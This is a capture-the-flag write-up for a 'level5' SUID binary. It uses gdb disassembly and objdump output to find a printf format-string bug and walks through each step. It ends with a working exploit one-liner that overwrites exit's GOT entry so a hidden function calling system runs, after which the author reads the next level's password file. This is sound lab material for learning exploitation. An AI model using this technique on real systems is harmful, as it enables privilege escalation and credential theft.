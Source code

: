 # Level 5

## First clue
- once logged in as level5 we find again an executable with the same behavior of ./level4, `level5` owned by `level6` and the SUID (SET USER ID) bit set(indicated by the s in place of the execute permission for the owner (rws)) that means that when anyone execute the file it will run with the privileges of level5, not the person executing it
- we try to execute it without arguments and we get the prompt back
- if we write something, that something is copied back as output

## Inspect with gdb
- The binary contains printf, fgets, system, external functions used for input/output operations and executing commands, indicating potential interaction with the user and system.
```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
(gdb)


```
- there are three main functions, `main`, `o` and `n`
- first we inspect main
## Main
```
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    

```
- main is simple, makes a stack alignment and call function `n`, as in level4
## Function n

```
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>

```
- allocates 0x218 = 536 bytes
- reads input from user using fgets, storing input in buffer at 0x208(%ebp)
- it calls printf function (that is at address 0x8048380) with as argument the user input retrieved with fget and stored in 0x208 
- it exits wihout returning
## Function o
```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt> 
End of assembler dump.

```
- prepares the stack frame
- allocates 24 bytes (0x18 in hexa)
- the movl $0x80485f0, (%esp) instruction prepares an argument to be passed to the system function. It's placing the address 0x80485f0 onto the stack, which will serve as the argument to the system function call.
- The call 0x80483b0 <system@plt> instruction then calls the system function, passing the address 0x80485f0 as its argument. This means that the system function will execute the command specified at the memory address 0x80485f0.

## Vulnerability
- in function n the user input is not properly sanitized before being passed to the printf function, so we still have a control string vulnerability, but unlike in level4 we don't have a return and the system call is in function o, that is not called anywhere. So we can construct a controlled string that allows us to replace the address of exit in the GOT with the address of "o", so that when function n exit, "o" is called instead.


## Finding the address of exit in GOT (Global Offset Table), that is writeable
- ` objdump -R level5`
```
level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main


```
- we got th address: 08049838

## Finding at what position the exit functin address passed as argument to printf will be stored in the stack: 


`python -c 'print "aaaa" + " %x" * 10' | ./level5`
- we got: `aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078` => exit will be at 4th position

## Finding the address of function o
```
(gdb) info function o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
```
- the addreess of o function that we want the exit point to allowing us to execute the shell command is 0x080484a4

## Building the exploit: 

`python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n""' | ./level5`

- \x38\x98\x04\x08 represents the address of the exit function in little-endian format.
- %134513824d specifies a large number of characters to print before %n is executed. This number corresponds to the address of the o function in little-endian format.
- %4$n tells printf to write the count of characters printed so far to the memory address specified by the fourth argument, that is the exit function address
- so  we're effectively overwriting the address of exit in the Global Offset Table (GOT) with the address of the o function


## Triggering System Call
Once executed the exploit 134513824 chr are printed and then we can cat the /level6/.pass containing the flag

